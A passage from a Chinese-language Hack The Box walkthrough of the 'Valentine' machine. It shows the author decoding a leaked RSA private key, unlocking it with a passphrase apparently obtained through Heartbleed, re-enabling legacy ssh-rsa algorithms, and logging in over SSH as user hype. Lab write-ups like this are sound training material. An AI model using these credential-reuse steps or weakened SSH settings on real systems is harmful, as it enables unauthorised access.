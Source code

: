 可以看到是一个RSA私钥，接下去用ssh进行连接

## 初始shell

对hype_key进行转码，并通过ssh进行连接

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ xxd -r -p hype_key > hype_key.rsa

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ chmod 600 hype_key.rsa

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79
Enter passphrase for key 'hype_key.rsa': 
```

这里私钥有密码，想到了之前decode中获取的字符串：heartbleedbelievethehype

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79
Enter passphrase for key 'hype_key.rsa': 
sign_and_send_pubkey: no mutual signature supported
hype@10.10.10.79's password: 
```

这里有个报错，因为新版本的ssh不再支持一些弱加密算法，所以如果要用的话需要手动指定`-o PubkeyAcceptedKeyTypes=+ssh-rsa`。

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79 -o PubkeyAcceptedKeyTypes=+ssh-rsa
Enter passphrase for key 'hype_key.rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
hype@Valentine:~$ 
```

这里也可以修改SSH配置文件，在文件末尾追加以下内容

```shell
Host *
    PubkeyAcceptedKeyTypes=+ssh-rsa
    HostKeyAlgorithms=+ssh-rsa
```

![image-20230429170722849](/resource/012-Valentine.assets/image-20230429170722849.png)
